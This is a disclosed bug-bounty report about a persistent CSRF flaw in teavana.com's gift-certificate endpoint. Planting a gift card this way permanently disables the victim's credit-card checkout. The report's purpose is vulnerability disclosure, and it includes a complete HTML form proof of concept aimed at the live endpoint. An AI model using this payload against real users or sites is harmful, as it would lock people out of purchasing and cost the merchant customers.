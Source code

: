 # Persistent CSRF in /GiftCert-AddToBasket prevents purchases on eCommerce sites

## Report Details
- **Report ID**: 206319
- **URL**: https://hackerone.com/reports/206319
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-02-14T11:44:45.802Z
- **Disclosed**: 2017-05-15T18:30:21.926Z

## Reporter
- **Username**: inhibitor181
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
SUMMARY
--------------
Hello, I have found an extremely interesting issue that can be used to permanently lock a user's possibility of ever buying anything from teavana.com by removing the credit card payment method.

POC
---------
CSRF snippet
```
<html>
	<head></head>
	<body>
		<form method="POST" id="GiftCertificateForm" action="http://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/GiftCert-AddToBasket">
			<input class="textinput" id="dwfrm_giftcert_purchase_from" type="text" name="dwfrm_giftcert_purchase_from" value="Test whatever" maxlength="2147483647">
			<input class="textinput" id="dwfrm_giftcert_purchase_recipient" type="text" name="dwfrm_giftcert_purchase_recipient" value="Test whhhateever" maxlength="2147483647">
			<input class="textinput" id="dwfrm_giftcert_purchase_recipientEmail" type="text" name="dwfrm_giftcert_purchase_recipientEmail" value="valid@iamvalid.com" maxlength="2147483647">
			<input class="textinput" id="dwfrm_giftcert_purchase_confirmRecipientEmail" type="text" name="dwfrm_giftcert_purchase_confirmRecipientEmail" value="valid@iamvalid.com" maxlength="2147483647">
			<textarea class="textbox" id="dwfrm_giftcert_purchase_message" name="dwfrm_giftcert_purchase_message" rows="5" cols="50">Bla bla</textarea>
			<input class="textinput" id="dwfrm_giftcert_purchase_amount" type="text" name="dwfrm_giftcert_purchase_amount" value="100" maxlength="2147483647">
			<input type="submit" value="Send" />
		</form>
	</body>
</html>
```

DESCRIPTION
----------------
So, I just wanted to find demandware.store hidden links and in my search I stumbled across
```
http://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/GiftCert-Purchase
```
From here, one can add custom gift cards in cart with a value between 5 and 5000 euros (or something like that). I have noticed that this is not CSRF protected, but this was a minor issue. Well, it became a serious problem after I noticed that after adding that gift card in my card, I wasn't able to fully empty my cart anymore and the credit card option was simply not available anymore and I wasn't able to fulfill any orders. Logging out and in doesn't do anything. Deleting cart product doesn't do anything. And because I tested teavana for some time, I know for a fact that the items in cart stay in cart (even after weeks).

So, I have made a new account, added the CSRF POC in a script then tested the flow and it worked. I have made my account unable to buy anything by adding that gift card in cart.

IMPACT
----------------
Permanently denying a user the possibility to fulfill with his account any orders is a very big issue (hence the High severity I personally find) and if someone launched an attack against you, you will lose customers and money (not to mention the potentially negative publicity)

Video POC attached.



## Attachments
No attachments
